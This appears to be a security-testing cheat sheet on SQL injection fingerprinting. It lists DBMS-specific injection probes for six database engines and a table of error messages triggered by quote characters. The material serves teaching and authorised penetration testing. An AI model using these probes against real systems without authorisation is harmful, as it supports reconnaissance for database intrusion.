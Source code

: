 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

## [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/new/main/Vulnerabilities/SQL%20Injection#sql-payloads-1)
## [Error Messages]()

---

## SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- ### MySQL-Specific Payloads
  If these payload can trigger ant valid responses or errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- ### MSSQL Specific Payloads
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- ### Oracle Specific Payloads
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- ### POSTGRESQL Specific Payloads

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- ### SQLite Specific Payloads

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- ### MSACCESS Specific Payloads

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

## Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    
